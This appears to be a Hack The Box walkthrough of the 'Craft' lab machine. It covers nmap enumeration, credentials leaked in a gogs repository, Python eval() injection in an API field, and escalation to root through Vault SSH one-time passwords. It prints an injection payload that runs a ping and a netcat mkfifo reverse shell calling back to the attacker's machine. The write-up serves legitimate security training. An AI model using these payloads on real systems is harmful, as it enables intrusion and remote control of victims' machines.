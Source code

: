 # 						  Craft - Hack The Box WalkThrough

### Victim IP: 10.10.10.110 Victim OS: Linux
### Enumeration - Namp
```
nmap -sV -sC -oA nmap_full -p1,65535 10.10.10.110
Nmap scan report for 10.10.10.110
Host is up (0.13s latency).

PORT     STATE SERVICE  VERSION
22/tcp   open  ssh      OpenSSH 7.4p1 Debian 10+deb9u5 (protocol 2.0)
| ssh-hostkey: 
|   2048 bd:e7:6c:22:81:7a:db:3e:c0:f0:73:1d:f3:af:77:65 (RSA)
|   256 82:b5:f9:d1:95:3b:6d:80:0f:35:91:86:2d:b3:d7:66 (ECDSA)
|_  256 28:3b:26:18:ec:df:b3:36:85:9c:27:54:8d:8c:e1:33 (ED25519)
443/tcp  open  ssl/http nginx 1.15.8
|_http-server-header: nginx/1.15.8
|_http-title: About
| ssl-cert: Subject: commonName=craft.htb/organizationName=Craft/stateOrProvinceName=NY/countryName=US
| Not valid before: 2019-02-06T02:25:47
|_Not valid after:  2020-06-20T02:25:47
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
| tls-nextprotoneg: 
|_  http/1.1
6022/tcp open  ssh      (protocol 2.0)
| fingerprint-strings: 
|   NULL: 
|_    SSH-2.0-Go
| ssh-hostkey: 
|_  2048 5b:cc:bf:f1:a1:8f:72:b0:c0:fb:df:a3:01:dc:a6:fb (RSA)
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port6022-TCP:V=7.80%I=7%D=12/19%Time=5DFC45CB%P=x86_64-pc-linux-gnu%r(N
SF:ULL,C,"SSH-2\.0-Go\r\n");
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Thu Dec 19 22:54:28 2019 -- 1 IP address (1 host up) scanned in 47.95 seconds   
```
### Enumerating the web page - https://craft.htb
![homepage](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/1_test.py.png)

The "API" link points to api.craft.htb and the "Sign in" button to "gogs.craft.htb" therefore we add these as entries to our hosts file in other to be able to resolve and reach them.

### Enumeration - https://api.craft.htb
Small API with basic GET, POST, PUT, DELETE actions, might be an interesting point of entry.
Authentication required for POST, PUT
![api_craft](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/api_craft.png)

### Enumeration - https://gogs.craft.htb
![gogs](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/gogs_craft.png)
Repository housing the code and content for api.craft.htb:
![commits](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/craft_api_repo.png)
Reviewing all issues,commits and merge requests, dinesh’s credentials were accidentally commited and removed: 
![dinesh_creds](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/dinesh_creds.png)
The issue fix by dinesh also shows a dangerous python function (eval):
![eval_in_issue_fix](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/eval_in_issue_fix.png)
The eval command resides in the POST brew function in brew.py and accepts user input.

The discovered credentials can be used in test.py
![1_test.py](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/1_test.py.png)


### Initial foothold - Exploiting python eval function
Test 1: On local system:
![Test 1](https://github.com/zomy22/zomy22.github.io/tree/master/hackthebox/craft_images/test1.png )

That works.
Test 2: with a similar "if" statement like in test.py:
![Test 2](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/test2.png)

That works too, however there is no result returned when it is tried on the victim end.

Test 3: Ping from victim to local machine:
tcpdump -i tun0 -nnv icmp
Payload (test.py): 
```brew_dict['abv'] = '__import__("os").system("ping -c 3 10.10.14.4")' ```
 
Test 4. Reverse shell (http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet):
Several failed till the netcat (without -e) option.

The payload in __test.py__ becomes: 
```brew_dict['abv'] = '__import__("os").system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.4 4445 >/tmp/f")'```

![Test 4](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/test3.png)

It's says root! Well that was easy! 
But wait no user.txt or root.txt flags. Of course it couldn’t be that easy 

Running "cat /etc/issue", LinEnum and linuxprivchecker again show that we are in a docker container
Release: Alpine Linux 3.9

### Obtaining User privileges  – user.txt
Dump database credentials – dbtest.py
![dbtest.py](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/dbtest.py.png)

Modify the SQL in the try statement to select all users from the database
![db_dump](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/dump_users.png)

Authenticate with discovered credentials and enumerate the git repository
All commits/merge requests ==> ssh private key, vault write commands …
<screenshot>
  
For now authenticate with the SSH private key and enter gilfoyle’s password (dumped from the db/git password) as passphrase

### Elevating to root – Leveraging Vault SSH Secrets Engine
After obtaining user access on the machine more enumeration is required to discover interesting escalation vectors. Running linuxenum and privesc scripts did not recover any vulnerabilities right away but did point out the vault write.

### Exploring vault:
![vault_secrets](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/vault_secrets_list.png)

Gilfoyle’s OTP setup:

![otp_setup](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/vault_write_ssh_otp.png)

Reviewing the SSH Secrets Engine Documentation: https://www.vaultproject.io/docs/secrets/ssh/one-time-ssh-passwords.html 
gilfoyle@craft:~$ vault write ssh/creds/root_otp ip=127.0.0.1
![vault_write_ssh_otp](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/vault_write_ssh_otp_new.png)

Then SSH to the host using the generated key and the root user:
![root.txt](https://github.com/zomy22/zomy22.github.io/blob/master/hackthebox/craft_images/root.txt.png)

Conclusion:
This machine simulates a lot of real world scenarios. I was delighted at every discovery, learned a lot and reminded myself once again the importance of enumeration during a penetration test.
